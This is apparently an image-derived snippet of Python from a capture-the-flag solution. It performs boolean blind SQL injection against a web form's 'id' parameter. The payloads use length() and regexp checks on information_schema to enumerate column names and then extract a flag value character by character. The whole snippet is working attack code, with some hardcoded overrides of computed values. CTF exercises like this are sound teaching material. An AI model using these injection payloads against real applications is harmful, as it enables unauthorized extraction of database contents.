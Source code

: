    ```python
       model="0' or length((select group_concat(column_name separator '@') from information_schema.columns where table_name='fiag' limit 1))=%d or 'pcat'='"
       while True:
           tmp= model %(i)
           myd={'id':payload(tmp),}
           res=mys.post(url,data=myd).content
           if true_state in res:
               lens=i
               break
           i+=1
           pass
       lens=5
       print("[+]length(group_concat(column_name separator '@')): %d" %(lens))
   
       strs=''
       model="0' or (select (select group_concat(column_name separator '@') from information_schema.columns where table_name='fiag' limit 1) regexp '%s$') or 'pcat'='"
       for i in range(lens):
           for c in cset:
               tmp=model %(c+strs)
               myd={'id':payload(tmp),}
               res=mys.post(url,data=myd).content
               if true_state in res:
                   strs=c+strs
                   print strs
                   break
           pass
       pass
       # get fl.4g maybe is fl.4g or f1$4g
       strs='fl$4g'
       print("[+]group_concat(column_name separator '@'):%s" %(strs))
   
   
       lens=0
       i=1
       model="0' or length((select fl$4g from fiag limit 1))=%d or 'pcat'='"
       while True:
           tmp= model %(i)
           myd={'id':payload(tmp),}
           res=mys.post(url,data=myd).content
           if true_state in res:
               lens=i
               break
           i+=1
           pass
       lens=19
       print("[+]length(fl$4g): %d" %(lens))
   
       strs=''
       model="0' or (select (select fl$4g from fiag limit 1) regexp '%s$') or 'pcat'='"
       for i in range(lens):
           for c in cset:
               tmp=model %(c+strs)
               myd={'id':payload(tmp),}
               res=mys.post(url,data=myd).content
               if true_state in res:
                   strs=c+strs
                   print strs
                   break
           pass
       pass
       # get flag{haha~you.win!}
       strs='flag{haha~you win!}'
   ```